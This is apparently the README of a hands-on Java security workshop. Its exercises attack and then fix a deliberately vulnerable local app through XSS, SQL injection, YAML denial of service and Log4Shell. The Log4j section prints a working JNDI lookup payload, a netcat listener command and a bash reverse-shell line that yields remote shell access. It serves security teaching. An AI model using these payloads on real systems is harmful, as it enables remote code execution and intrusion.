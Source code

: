 # Jfokus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up --build
    ```
- Run on your local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

### Login
- Username: `admin`
- Password: `foobar`

## Assignment 1
### Cross-site scripting

You can click on the username on the search page to show you more details.
This page is vulnerable to a cross-site scripting attack.
![DirectLink1](image/directlink.png)
![DirectLink2](image/directlink2.png)

### 1a Try to create an alert loading the page
- [Hint 1](hints/xss/hint1.md)
- [Hint 2](hints/xss/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/xss/hint3.md)
- [Hint 4](hints/xss/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/xss/hint5.md)
- [Hint 6](hints/xss/hint6.md)
- [Hint 7](hints/xss/hint7.md)



## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance, `Super%` will give you the result for **Superman**
Using the search term `%man`

![Search](image/search.png)

### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Click on `import` to import new users using a YAML file.
![import](image/import.png)
![yaml](image/yaml.png)

### 3a Upload 2 new users using a YAML file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)



## Assignment 4 (Bonus assignment)
### Log4j

For this exercise, you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands.

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username.

### 4b startup the evil LDAP server
From the root of the project, do the following:

```
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch Netcat listening to port 9001
```
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create a serialized java payload containing a gadget chain from the outdated Apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your Docker container, connect to the LDAP server on your local machine

Use below as the username with any given password 
```
${jndi:ldap://host.docker.internal:9999/Commons}
```



If everything works out, you just executed a reverse shell command to port 9001.
Because your Netcat is listening to this, you now have shell access to that machine. The terminal you started Netcat in should now look similar to this.

![ncat](image/ncat.png)

Play around as you now have remote access to this machine by leveraging a remote code execution.







